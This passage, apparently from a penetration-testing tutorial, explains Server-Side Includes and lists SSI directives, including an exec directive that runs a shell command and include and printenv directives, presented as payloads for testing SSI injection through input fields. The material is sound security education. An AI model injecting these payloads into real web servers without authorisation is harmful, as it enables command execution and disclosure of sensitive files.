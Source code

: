 
Server-side includes (`SSI`) is a technology used by web applications to create dynamic content on HTML pages before loading or during the rendering process by evaluating SSI directives. Some SSI directives are:

Code: html

```html
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
	<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```

The use of SSI on a web application can be identified by checking for extensions such as .shtml, .shtm, or .stm. That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

We need to submit payloads to the target application, such as the ones mentioned above, through input fields to test for SSI injection. The web server will parse and execute the directives before rendering the page if a vulnerability is present, but be aware that those vulnerabilities can exist in blind format too. Successful SSI injection can lead to extracting sensitive information from local files or even executing commands on the target web server.


